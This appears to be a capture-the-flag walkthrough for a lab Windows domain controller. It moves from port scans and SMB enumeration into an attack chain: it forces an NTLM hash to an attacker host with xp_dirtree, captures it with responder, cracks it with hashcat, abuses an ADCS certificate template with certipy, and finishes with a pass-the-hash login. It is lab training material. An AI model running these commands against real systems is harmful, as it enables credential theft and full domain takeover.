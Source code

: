 # Rust-Scan:
```
Open 10.129.228.253:53
Open 10.129.228.253:88
Open 10.129.228.253:135
Open 10.129.228.253:139
Open 10.129.228.253:389
Open 10.129.228.253:445
Open 10.129.228.253:464
Open 10.129.228.253:593
Open 10.129.228.253:636
Open 10.129.228.253:1433
Open 10.129.228.253:3268
Open 10.129.228.253:3269
Open 10.129.228.253:5985
Open 10.129.228.253:9389
Open 10.129.228.253:49667
Open 10.129.228.253:49691
Open 10.129.228.253:49692
Open 10.129.228.253:49711
Open 10.129.228.253:49715
```

# Nmap:

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-04-13 18:13:41Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.228.253:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.228.253:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.1776
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
49715/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

# smbmap:

		Sharename       Type      Comment
        ---------       ----      -------
        ADMIN           Disk      Remote Admin
        C$              Disk      Default share
        IPC$             IPC      Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 


$ smbclient \\\\$IP\\Public -N -c

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Nov 19 17:21:25 2022
  ..                                  D        0  Sat Nov 19 17:21:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 19:09:43 2022


# MSSQL - SMB STEAL HASH:

xp_dirtree '\\<attacker_IP>\any\thing'

# Capture hash
sudo responder -I tun0

hashcat -a 0 -m 5600  hash.txt /usr/share/wordlists/rockyou.txt

evil-winrm -u sql_svc  -p '<password-cracked>'  -i $IP

cd  C:/SQLServer/Logs

type ERRORLOG.bak

certipy-ad find -u Ryan.Cooper -p <password> -dc-ip $IP -text -stdout -vulnerable


certipy-ad req -u Ryan.Cooper -p <password> -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication -debug


sudo ntpdate $IP

certipy-ad auth -pfx administrator.pfx -debug

Got hash for 'administrator@sequel.htb': <hash>


evil-winrm -i sequel.htb -u administrator -H '<hash>'
